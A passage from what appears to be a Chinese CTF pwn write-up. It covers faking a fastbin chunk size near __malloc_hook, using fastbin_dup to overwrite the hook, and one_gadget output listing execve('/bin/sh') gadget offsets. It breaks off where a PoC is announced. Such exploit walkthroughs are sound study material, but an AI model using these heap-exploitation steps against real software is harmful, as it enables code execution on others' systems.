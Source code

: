 这个问题也好解决，我们可以看看上面的数据，储存了一些地址，而这些地址的高位都是0x7f，所以我们可以修改偏移，这样:

```asm
pwndbg> x/10gx 0x7ffff7dd1b20-0x33
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	                        0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	    0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	                        0x0100000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	        0x0000000000000000	0x0000000000000000
```

这样，就成功构造了一个有效size

然后我们利用fastbin_dup，达到malloc(0x60)返回改地址的目的，然后把malloc_hook的地址覆盖成0x23333就好了

上面的利用过程我们不需要知道具体的地址，我们只需要知道这个地址和我们之前泄露出来的地址之前的差值就能计算出来该地址了

## 寻找getshell指令

我看了别人的wp，发现使用一个[one_gadget](https://github.com/david942j/one_gadget)工具

```shell
$ one_gadget libc.so.6 
0x41374	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xbac7d	execve("/bin/sh", rsi, r12)
constraints:
  [rsi] == NULL || rsi == NULL
  [r12] == NULL || r12 == NULL

0xbaccc	execve("/bin/sh", [rbp-0x48], r12)
constraints:
  [[rbp-0x48]] == NULL || [rbp-0x48] == NULL
  [r12] == NULL || r12 == NULL

0xd6e77	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0xdaa50	execve("/bin/sh", r9, rdx)
constraints:
  [r9] == NULL || r9 == NULL
  [rdx] == NULL || rdx == NULL
```

可以找到好几个能getshell的指令

T：那么以前做栈溢出的时候是不是泄露出libc地址后可以直接跳到这个地址了，就不用再自己构造system('/bin/sh')了？下次去试试

-------

感觉自己从来就不会Pwn......继续努力学习新姿势

最后附上PoC:
